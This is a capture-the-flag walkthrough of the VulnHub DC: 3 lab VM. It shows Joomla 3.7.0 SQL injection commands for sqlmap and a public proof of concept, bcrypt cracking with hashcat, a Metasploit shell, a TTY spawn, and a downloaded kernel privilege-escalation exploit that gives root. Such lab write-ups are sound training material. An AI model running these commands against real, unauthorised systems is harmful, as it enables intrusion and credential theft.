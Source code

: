# DC: 3
[VulnHub link](https://www.vulnhub.com/entry/dc-3,312/)  
By DCAU

* As with DC: 1 and DC: 2, we are first greeted with a login page that requires users to specify both the username and the password:
![](/screenshots/dc-3/loginInitial.jpg)
* Common login credentials such as `admin:admin` and `admin:password` do not work.
* Run `nmap 10.0.2.*`, where we find 5 live hosts:
![](/screenshots/dc-3/nmapScan.jpg)
* After eliminating our own IP address and our router gateway IP address, it is very likely that the vulnerable VM's IP address is `10.0.2.8`.
* The host is running only the HTTP (port 80) service, where the port for this server is open.
* Run `nmap -p- -A 10.0.2.8`:
![](/screenshots/dc-3/hostFullScan.jpg)
* Looking at the services which the vulnerable VM is running, we can see an Apache httpd web server running on port 80 (which is open). Also, it appears that the web server is running on a Joomla Content Management System (CMS) instead of WordPress.
* Opening `http://10.0.2.8` reveals a site with a welcome post (message) and a login form on the right-hand side:
![](/screenshots/dc-3/siteWebServer.jpg)
* I learnt from another walkthrough that we can identify the CMS behind the site through the header in the page's source, without using any tools at all:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* Unlike the previous 2 iterations of DC which has 5 flags, this one only has **1 flag**.
* I tried my luck on the login form with common login credentials such as `admin:admin` and `admin:password` which do not work as expected.
* Moreover, the displayed error message does not reveal to us if the username exists or not, unlike WordPress which does.
![](/screenshots/dc-3/loginInvalidMessage.jpg)
* The username is in red in the screenshot, but I do not think that means that the username does not exist. The username `admin` is likely to exist because we see that the welcome post was `Written by admin`, and I tried logins with the username `admin` and also other random ones, but both showed the username in red as a result of the invalid login attempt.
* Next, I tried `http://10.0.2.8/robots.txt`, where the output told us that a `robots.txt` file does not exist.
* The page source does not seem to reveal much of interest to us as well.
* It seems like there was nothing more I could poke at from the site by clicking around, so I searched for `joomla scanner kali` on Google, and found that our Kali VM has `joomscan` which scans for Joomla CMS vulnerabilities.
* Run `joomscan -u 10.0.2.8`:
![](/screenshots/dc-3/joomscan.jpg)
* The first thing that caught my eye was the `admin page` at `http://10.0.2.8/administrator/`, which really actually is a login page for administrators. Again, I tried common login credentials which were not successful:
![](/screenshots/dc-3/siteAdminLogin.jpg)
* And once again, there is no information leakage on whether we have a working username or not.
* Next, I tried to access the 4 directory listings that were shown and we are actually able to see the various directories and files within them!
* This was my first encounter with the Joomla CMS and I was not quite sure what to look out for, even if I had access to directories and files, unlike for example WordPress - where I knew that I would hunt for files like wp-config.php.
* However, we do know from `joomscan` that the Joomla CMS on this site was version `3.7.0`. Moreover, I learnt from another walkthrough that we could also have found out the version of the Joomla CMS via the `README.txt` file:
![](/screenshots/dc-3/siteWebServerCMSVersion.jpg)
* I googled to see if there were exploits for this version of Joomla, and found the [Joomla Component Fields SQLi Remote Code Execution](https://www.rapid7.com/db/modules/exploit/unix/webapp/joomla_comfields_sqli_rce).
* I opened `msfconsole` and ran `use exploit/unix/webapp/joomla_comfields_sqli_rce`. After running `show options`, I `set RHOST 10.0.2.8`:
![](/screenshots/dc-3/msfconsoleJoomlaOptions.jpg)
* However, upon running `exploit`, we see that no session was created because there was "no logged-in Administrator or Super User user found":
![](/screenshots/dc-3/msfconsoleJoomlaExploitFailed.jpg)
* This tells us that there are no users logged in at the moment, or at least there are no users which have administrative privileges who are logged in.
* **Method 1: Using Existing Proof-of-Concept Exploit**
* I googled further and found a proof-of-concept exploit for the same vulnerability at this [GitHub link](https://github.com/XiphosResearch/exploits/tree/master/Joomblah).
* Clone the Git repository, and run `python joomblah.py http://10.0.2.8`:
![](/screenshots/dc-3/joomblahOutput.jpg)
* Within a few seconds, we get to know that the user `admin` exists, along with his password hash `$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu`.
* **Method 2: Using sqlmap**
* Alternatively, instead of using the proof-of-concept exploit, `searchsploit 3.7` led us to exploit `42033`, where there is a vulnerable URL given, as well as a command using `sqlmap`.
* `sqlmap` is an automatic SQL injection tool, allowing us to gain access to information stored in databases using the right set of queries by the tool.
* Modifying the `sqlmap` to our context gives us: `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]`.
* I got prompted 3 times after running the command. Firstly, the detected back-end DBMS is `MySQL` and the prompt asked us if we want to skip test payloads for other DBMSes, to which I said yes, because it only made sense to do so for what is relevant. If we arrived at a dead-end subsequently, this might be something worth re-looking.
* The second prompt asked us if we want to follow the redirect to `http://10.0.2.8:80/index.php/component/fields/`, which sqlmap received, to which I said yes. The SQL injection exploit here was fundamentally about the component fields portion.
* The last prompt asked us if we wanted to keep testing the other parameters, since sqlmap had already found the GET parameter 'list[fullordering]' to be vulnerable. I gave a yes, but the command execution came to an end soon enough after that, so I guess there were not many other parameters to be tested.
* Lastly, the command execution also told us that there were 5 entries in the database names, where `joomladb` appears to be of interest to us. We also now know that the MySQL version is >= `5.1`.
![](/screenshots/dc-3/sqlmapDatabaseNames.jpg)
* Running `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables --batch` gives us the list of tables in the `joomladb` database, where the `#__users` table is of concern to us because we wanted to find a valid set of user credentials:
![](/screenshots/dc-3/sqlmapTableNames.jpg)
* Next, we run `sqlmap -u "http://10.0.2.8/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump --batch` to find out the contents of table `#_users`:
![](/screenshots/dc-3/sqlmapTableEntry.jpg)
* The hash value in the table is the same as the one that we have found earlier.
* I ran `hash-identifer` against the password hash and interestingly found no results:
![](/screenshots/dc-3/hashIdentifierAdmin.jpg)
* I extracted the front portions of the hash, i.e. `$2y$` and ran a Google search against it. Wikipedia tells us that such a prefix in a hash string indicates that the hash is a "bcrypt hash in modular crypt format".
* We will be using `hashcat`, ... **Find out if background of hashcat is required.**
* I ran `hashcat --help` to find out what parameters we had to use, and the `Hash modes` list came up to be pretty long, so I ran `hashcat --help | grep bcrypt` to find out what number was the bcrypt hash mode, which turned out to be `3200`.
* Insert the password hash into a text file (mine is `crackThisHash.txt`).
* Run `hashcat -m 3200 crackThisHash.txt /usr/share/wordlists/rockyou.txt --force`:
![](/screenshots/dc-3/hashcat.jpg)
* After a few seconds, we see that the hash has been cracked, and we have now got a valid set of credentials: `admin:snoopy`.
* Note: I used the standard given `rockyou.txt` wordlist for this purpose.
* Note: Running the command without `--force` for me resulted in this error:
![](/screenshots/dc-3/hashcatError.jpg)
* We are now able to log in to `http://10.0.2.8/administrator/`:
![](/screenshots/dc-3/loginAdmin.jpg)
* After logging in, I poked around the articles, categories, modules, plugins, etc. but did not quite seem to find information that was useful to me. This was my first time inside a Joomla CMS administrator panel and I was probably just groping in the dark.
* I remembered the exploit session which we attempted earlier using `msfconsole` and decided to head back for a shot at it:
![](/screenshots/dc-3/msfconsoleJoomlaExploitSuccess.jpg)
* We were able to establish a meterpreter session this time because we are logged in as `admin`.
* Note: If you encounter the same error as before (no logged-in administrator user), refresh your administrator panel on your web browser to confirm that you are still logged in, just before you run `exploit`.
* Run `shell`, then `whoami` and we find that we are `www-data` as expected.
* Enter `python -c 'import pty; pty.spawn("/bin/bash")'` to spawn our interactive TTY shell and we find ourselves within `/var/www/html/templates/beez3`.
* I ran `find / -user root -perm -4000 -print 2>/dev/null` to search for setuid binaries which we could possibly exploit to gain root access:
![](/screenshots/dc-3/setuidBinaries.jpg)
* Nothing much really stood out to me. `pkexec` stood out to me, probably because I never saw it before. I googled about exploits relating to it, which was [available](https://www.exploit-db.com/exploits/17932) provided that the version running was <= 0.101. Running `pkexec --version` revealed that our version was `0.105`.
* I navigated to the `/home` directory and found several files for user `dc3`:
![](/screenshots/dc-3/dc3Files.jpg)
* The file `.sudo_as_admin_successful` stood out, but it was an empty file. Perhaps it is a hint? I opened up the `/cat/passwd` file to see if there was any user `admin`:
![](/screenshots/dc-3/passwdFile.jpg)
* Since there was no user `admin`, I was not quite sure what the file name meant. Perhaps admin referred to root.
* Nonetheless, we did confirm that there is a user `dc3`.
* At this point I was pretty much stuck on how I should be moving forward and referred to existing walkthroughs of DC-3, and found that one exploit to getting root was through a vulnerability in the web server's OS. This was getting interesting - I had never tried something like that before.
* To find out what OS version the web server is running, execute `cat /etc/issue; uname -a`:
![](/screenshots/dc-3/vulnerableOSVersion.jpg)
* We see that the web server is running on `Ubuntu 16.04 LTS`.
* Run `searchsploit Ubuntu 16.04` to find out if there are any existing exploits for this version of Ubuntu:
![](/screenshots/dc-3/searchsploitUbuntu.jpg)
* We will be using 'double-fdput()' bpf(BPF_PROG_LOAD) Privilege Escalation from the list of available exploits.
* Run `cat /usr/share/exploitdb/exploits/linux/local/39772.txt` to see the details of the exploit.
* Download the .zip file for this exploit from [this GitHub link](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) on the `/tmp` directory of the vulnerable web server.
* Run `unzip 39772.zip` to unzip the file, and we find `crasher.tar` and `exploit.tar`. At this point we are not exactly sure how we should be handling the files so I referred back to 39772.txt on how the files should be used:
![](/screenshots/dc-3/exploitUsage.jpg)
* Since we are looking at `exploit.tar`, run `tar -xvf exploit.tar` to extract its contents, which gives us the directory `ebpf_mapfd_doubleput_exploit`:
![](/screenshots/dc-3/doubleputExploitDirectory.jpg)
* Following the instructions in 39772.txt, run `./compile.sh`, which is a script that compiles the 3 C programs.
* Next, run `./doubleput`, and we have our root access:
![](/screenshots/dc-3/rootAccess.jpg)
* Head to `/root` directory, and we find `the-flag.txt`:
![](/screenshots/dc-3/flag.jpg)
* Hurray, we are done with this challenge!

# Other walkthroughs visited #
1. https://www.hackingarticles.in/dc-3-walkthrough/